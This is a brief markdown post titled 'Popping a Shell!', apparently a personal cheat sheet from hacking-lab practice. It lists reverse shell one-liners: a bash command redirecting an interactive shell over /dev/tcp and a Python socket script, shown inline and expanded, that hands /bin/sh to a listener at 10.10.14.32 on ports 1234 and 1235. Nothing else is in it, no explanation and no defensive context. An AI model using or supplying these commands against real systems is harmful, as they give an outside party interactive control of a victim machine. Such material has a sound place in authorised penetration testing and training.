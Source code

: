 ```yaml
---
title: "Popping a Shell!"
date: 2021-02-10T17:23:05+01:00
categories: []
tags: []
---
```


A few ways to pop a shell...

`/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.32/1234 0>&1'`

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

```text
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.32",1235))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
